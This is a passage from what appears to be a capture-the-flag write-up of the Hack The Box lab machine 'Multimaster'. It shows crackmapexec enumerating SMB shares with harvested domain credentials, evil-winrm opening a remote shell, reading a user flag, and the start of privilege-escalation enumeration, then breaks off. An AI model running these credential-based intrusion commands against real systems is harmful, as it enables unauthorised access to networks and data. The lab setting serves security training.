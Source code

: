 

    root@kali# crackmapexec smb 10.10.10.179 -u tushikikatomo -p finance1 --shares
    SMB         10.10.10.179    445    MULTIMASTER      [*] Windows Server 2016 Standard 14393 x64 (name:MULTIMASTER) (domain:MEGACORP) (signing:True) (SMBv1:True)
    SMB         10.10.10.179    445    MULTIMASTER      [+] MEGACORP\tushikikatomo:finance1 
    SMB         10.10.10.179    445    MULTIMASTER      [+] Enumerated shares
    SMB         10.10.10.179    445    MULTIMASTER      Share           Permissions     Remark
    SMB         10.10.10.179    445    MULTIMASTER      -----           -----------     ------
    SMB         10.10.10.179    445    MULTIMASTER      ADMIN$                          Remote Admin
    SMB         10.10.10.179    445    MULTIMASTER      C$                              Default share
    SMB         10.10.10.179    445    MULTIMASTER      Development                     
    SMB         10.10.10.179    445    MULTIMASTER      dfs             READ            
    SMB         10.10.10.179    445    MULTIMASTER      E$                              Default share
    SMB         10.10.10.179    445    MULTIMASTER      IPC$                            Remote IPC
    SMB         10.10.10.179    445    MULTIMASTER      NETLOGON        READ            Logon server share 
    SMB         10.10.10.179    445    MULTIMASTER      SYSVOL          READ            Logon server share



### WinRM

I also have access to a shell over WinRM:



    root@kali# evil-winrm -u "MEGACORP\tushikikatomo" -p finance1 -i 10.10.10.179

    Evil-WinRM shell v2.3

    Info: Establishing connection to remote endpoint

    *Evil-WinRM* PS C:\Users\alcibiades\Documents>



And `user.txt`:



    *Evil-WinRM* PS C:\Users\alcibiades\desktop> type user.txt
    8264c025************************



## Priv: tushikikatomo --\> cyork

### Enumeration

I wanted to check out the web stuff, but this user doesn't have access
to `\inetpub\wwwroot`:



    *Evil-WinRM* PS C:\inetpub\wwwroot> dir
    Access to the path 'C:\inetpub\wwwroot' is denied.
    At line:1 char:1
    + dir
    + ~~~
        + CategoryInfo          : PermissionDenied: (C:\inetpub\wwwroot:String) [Get-ChildItem], UnauthorizedAccessException
        + FullyQualifiedErrorId : DirUnauthorizedAccessError,Microsoft.PowerShell.Commands.GetChildItemCommand
